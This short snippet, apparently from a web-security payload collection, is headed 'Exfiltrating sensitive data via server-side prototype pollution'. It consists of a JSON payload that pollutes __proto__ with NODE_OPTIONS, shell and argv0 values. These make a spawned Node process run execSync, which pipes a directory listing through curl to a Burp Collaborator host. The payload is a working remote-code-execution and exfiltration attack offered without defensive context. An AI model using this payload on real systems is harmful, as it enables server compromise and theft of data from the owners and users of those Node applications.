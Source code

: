 


### Exfiltrating sensitive data via server-side prototype pollution\
Payload
```nop

'{
	"__proto__": 
	{
		"NODE_OPTIONS": "--require /proc/self/cmdline", 
		"shell": "node",
		"argv0": "require('child_process').execSync('curl `ls ` burpsuite-collbabrator') //"
	}
}'
